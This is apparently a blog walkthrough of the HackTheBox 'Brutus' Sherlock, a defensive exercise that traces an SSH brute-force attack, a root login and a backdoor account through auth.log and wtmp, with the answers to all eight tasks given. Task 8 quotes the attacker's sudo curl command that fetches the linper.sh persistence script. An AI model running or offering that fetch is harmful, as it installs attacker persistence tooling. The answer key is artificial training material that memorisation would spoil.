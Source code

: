 ```yaml
---
title: "Sherlock - Brutus - English"
summary: "Sherlock from HackTheBox about unauthorized login attempts on a Confluence server. The auth.log and wtmp files are provided for investigation."
date: "Mar 2 2025"
draft: false
tags:
- HackTheBox
- Sherlock
- Very easy
- Tutorial
- Linux Env.
- English
---
```




<SherlockBeginningTable  lang={LANG_EN} 
  data={[
    { content: `In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs.
    We'll explore a scenario where a Confluence server was brute-forced via its SSH service. 
    After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. 
    Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, 
    including aspects of privilege escalation, persistence, and even some visibility into command execution.` },
    { content: "auth.log, wtmp" },
  ]} />

<div align="center">
  <img width="500px" src="/blog/sherlocks/brutus_images/Sherlock_logo.png" />
</div> 

## Tasks

---

<SherlockTask lang={LANG_EN} 
    task_number="1" 
    task_content="Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?" 
    hint_content="Searching for keywords associated with brute force attempts may help in identifying potential attacks." 
    answer="65.2.161.68"/>

- We can search for the keywords `Invalid user` to find out the attacker's IP with any of these commands:

<CodeBlock code={"grep \"Invalid user\" auth.log"}/>

<CodeBlock code={"cat auth.log | grep \"Invalid user\""}/>

- The logs have this format:

<CodeBlock code={"Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380"}/>

- There are many failed login attempts from the IP 65.2.161.68 with user accounts suggesting elevated privileges (`admin`, `server_adm`, `svc_account` and `root`). That's the IP we are looking for.

---

<SherlockTask lang={LANG_EN} 
    task_number="2" 
    task_content="The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?" 
    hint_content="Look for keywords indicating successful login attempts to identify the compromised account." 
    answer="root"/>

- Taking a look to the `auth.log` file, we can see that access was gained with the user `root` from the IP 65.2.161.68, which is the attacker's IP as mentioned earlier.

<CodeBlock code={"Mar 6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2"}/>

- We can filter with the keywords `Accepted password`, though:

<CodeBlock code={"cat auth.log | grep \"Accepted password\""}/>


---

<SherlockTask lang={LANG_EN} 
    task_number="3" 
    task_content="Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?" 
    hint_content="It's important to note that the first successful login by the attacker was the result of an automated brute force attempt, and the session was 
    closed within the same second it was established. After obtaining the working credentials, the attacker manually logged in, and we need to identify that login. 
    Use the wtmp artifact to view the login time of the working session and correlate that with auth.log." 
    answer="2024-03-06 06:32:45"/>

- Since in `auth.log` the timestamp has this format `Month Day HH:mm:SS` and the requested format is `YYYY-MM-DD HH:mm:SS`, we need to search in the `wtmp` file.
- With this command, we can see all logins in that file:

<CodeBlock code={"utmpdump wtmp"}/>
    
- But we can filter by the username with which the attacker gained access, which in this case is what we are interested in:

<CodeBlock code={"utmpdump wtmp | grep 'root'"}/>

<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_3.png"/>

- We can see that in the last line, the login from the IP 65.2.161.68 has a similar timestamp format to `YYYY-MM-DD HH:mm:SS`. There is our answer.

---

<SherlockTask lang={LANG_EN} 
    task_number="4" 
    task_content="SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?" 
    hint_content="A session number is assigned immediately after the password is accepted." 
    answer="37"/>

- Considering the previous timestamp, we can search in `auth.log` around that time.
- We search for that hour and those minutes (we could also search for the user `root`, though):

<CodeBlock code={"cat auth.log | grep '06:32'"}/>

<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_4.png"/>

- We see that one second before (06:32:44), the number 37 is assigned to the `root` user's session.

---

<SherlockTask lang={LANG_EN} 
    task_number="5" 
    task_content="The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?" 
    hint_content="Auth.log also tracks changes related to users and groups on the server. Look for keywords indicating user additions or privilege assignments." 
    answer="cyberjunkie"/>

- Reviewing the `auth.log` file, we realize that after gaining access, the attacker creates a new user with the name `cyberjunkie`, through `useradd` command, in order to maintain persistent access to the system (creating a backdoor):
    
<CodeBlock code={"Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1"}/>
     
---

<SherlockTask lang={LANG_EN} 
    task_number="6" 
    task_content="What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?" 
    hint_content="If you have found the answer to Question 5, consult the MITRE ATT&CK enterprise matrix to determine the sub-technique ID under the persistence tactic." 
    answer="T1136.001"/>

- To do this, we go to the URL https://attack.mitre.org and search in **Persistence > Create Account > Local Account**.

---

<SherlockTask lang={LANG_EN} 
    task_number="7" 
    task_content="What time did the attacker's first SSH session end according to auth.log?"
    answer="2024-03-06 06:37:24"/>

- Knowing the SSH session number, we can filter by it as follows:
    
<CodeBlock code={"cat auth.log | grep 'session 37'"}/>
    
<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_7.png"/>

- The second line indicates the time when the session was closed, with the state `Removed session 37`.

---

<SherlockTask lang={LANG_EN} 
    task_number="8" 
    task_content="The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?" 
    hint_content="Although auth.log is not typically used to track command executions like auditd, commands executed with sudo are logged in auth.log since the system needs to authenticate the account's privileges to grant root level permissions for that command. Search for the keyword 'COMMAND' to find commands executed using sudo."
    answer="/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh"/>

- The system needs to authenticate the account to grant administrative permissions for commands executed with `sudo`, which would be recorded in `auth.log`, as the hint states. We can filter by:
    
<CodeBlock code={"cat auth.log | grep \"COMMAND\""}/>
 
<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_8.png"/>   

- One of the lines shows us the `curl` command that the attacker executed and the script URL that he downloaded.

---

<SherlockFinalContent lang={LANG_EN}/>
